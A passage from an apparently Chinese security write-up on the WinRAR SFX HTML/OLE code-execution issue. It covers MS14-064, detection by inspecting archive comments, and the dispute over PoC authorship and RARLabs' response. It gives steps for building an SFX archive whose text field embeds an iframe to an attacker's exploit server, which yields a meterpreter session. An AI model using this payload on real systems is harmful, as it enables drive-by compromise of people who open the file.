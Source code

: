 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/845544cd7a43e56e910930f7fa065cf391111ac0.jpg)

**（2）**生成SFX

```
选择一个文件右键并添加到压缩文件
选中Create SFX archive
点击Advanced
点击SFX options
点击Text and icon

```

在Text to display in SFX windows中输入如下代码：

```
<iframe src="http://192.168.40.131:8080/YrrArF9oTAQ7j"></iframe>

```

**（3）**运行sfx文件

双击后meterpreter即上线

5、分析
----

1.  这种在sfx文件中添加html代码的方法很久以前已经出现，比如早在08年已存在的Winrar挂马 相关链接：http://www.2cto.com/Article/200804/25081.html
2.  此漏洞的亮点在于使得MS14-064漏洞exp可以逃脱IE沙箱的限制
3.  发现是否包含SFX OLE 代码执行漏洞的方法：遇到后缀为.exe的压缩文件，右键-属性-注释，查看其中的内容如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/730879e6b8a43a2757df46ff273315b3d3c7c648.jpg)

0x02 poc之谜
=====

Vulnerability Lab和Malwarebytes以及各大网站夸大漏洞危害本就十分有趣，而poc作者的归属又引来了更加有趣的事情。

接下来根据搜集的信息整理出如下时间节点：

1、seclists.org曝出WinRAR 5.21代码执行漏洞
---------------------------------

文中公开Mohammad Reza Espargham的poc

日期：28/09/2015

相关链接：[http://seclists.org/fulldisclosure/2015/Sep/106](http://seclists.org/fulldisclosure/2015/Sep/106)

2、WinRar官方RARLabs作出第一次回应
------------------------

> 限制SFX模块中的HTML功能会影响正常用户使用，而且攻击者仍可利用旧版SFX模块、来自非UnRAR源代码的自定义模块、或者自建代码存档进行攻击 所以RARLabs拒绝为此提供补丁并再次提醒用户，无论任何文件，都应该确认其来源是否可信
